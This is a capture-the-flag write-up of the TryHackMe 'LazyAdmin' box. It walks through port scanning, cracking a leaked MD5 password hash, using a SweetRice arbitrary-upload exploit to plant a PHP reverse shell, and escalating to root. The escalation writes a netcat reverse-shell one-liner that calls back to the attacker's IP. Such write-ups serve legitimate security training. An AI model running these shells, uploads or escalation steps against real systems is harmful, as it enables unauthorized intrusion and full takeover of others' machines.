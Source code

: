 # TryHackMe

------------------------------------

### IP: 10.10.97.171
### Name: LazyAdmin
### Difficulty: Easy

--------------------------------------------

![lazyadmin.jpeg](../assets/lazyadmin_assets/lazyadmin.jpeg)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.183.91
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 10:23 CDT
Nmap scan report for 10.10.183.91
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.74 seconds
```

Navigating to port 80 we find an apache landing page.

Kicking off some directory fuzzing we find a `/content` endpoint:

![lazyadmin_dirs.png](../assets/lazyadmin_assets/lazyadmin_dirs.png)

Checking it out we see it is running Sweet Rice:

![lazyadmin_sr.png](../assets/lazyadmin_assets/lazyadmin_sr.png)

Navigating to http://10.10.183.91/content/as/ we find the sign-in page:

![lazyadmin_signin.png](../assets/lazyadmin_assets/lazyadmin_signin.png)

Looking back at our directory scanning, we find a `/inc` page, and in that directory we find a mysql backup file:

![lazyadmin_backup.png](../assets/lazyadmin_assets/lazyadmin_backup.png)

Taking a look at the file we find the manager's password hash:

![lazyadmin_hash.png](../assets/lazyadmin_assets/lazyadmin_hash.png)

This appears to be MD5, so lets crack it using Hashcat:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt -m 0  
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
```

Nice, we can now login with `manager:Password123`. 

![lazyadmin_in.png](../assets/lazyadmin_assets/lazyadmin_in.png)

Looking for exploits for version 1.5.1 I find this arbitrary upload vulnerability: https://www.exploit-db.com/exploits/40716

Essentially the exploit is just logging in and uploading a PHP file, and then giving us the URL we can find the attachment at:

```python
<SNIP>
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass 
```

Lets give it a shot.

### Exploitation

First I'll grab a copy of PentestMonkey's php_reverse_shell.php and rename it to shell.php5:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ mv php-reverse-shell.php shell.php5                   
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ subl shell.php5   
```

Note: There is likely some file blacklisting going on, so it's important to update the extension to .php5, rather than just .php

I'll then open it up and change the address I'll be listening on:

![lazyadmin_script_update.png](../assets/lazyadmin_assets/lazyadmin_script_update.png)

Next I'll use the exploit to upload the file:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ python sweetrice_upload.py
```

![lazyadmin_exploit1](../assets/lazyadmin_assets/lazyadmin_exploit1.png)


```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.183.91] 43616
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:11:19 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
THM-Chal
```

I can then grab the user.txt flag:

![lazyadmin_user_flag.png](../assets/lazyadmin_assets/lazyadmin_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what we can do with elevated permissions, we find we can execute a perl script as root:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Digging a bit deeper, we see we can't modify backup.pl directly, but the script calls another script, copy.sh,  which we do have write access over. And oddly enough that script is a reverse shell one liner (for some reason?). So we should just be able to update copy.sh to our IP address, execute backup.pl with sudo, and catch a reverse shell as root.

![lazyadmin_why.png](../assets/lazyadmin_assets/lazyadmin_why.png)

Update /etc/copy.sh
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.0.125 5554 >/tmp/f" > /etc/copy.sh
```

Set up a listener and execute backup.pl with sudo:
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```

And we catch a shell as root where we can grab the final flag:

![lazyadmin_root_flag.png](../assets/lazyadmin_assets/lazyadmin_root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------
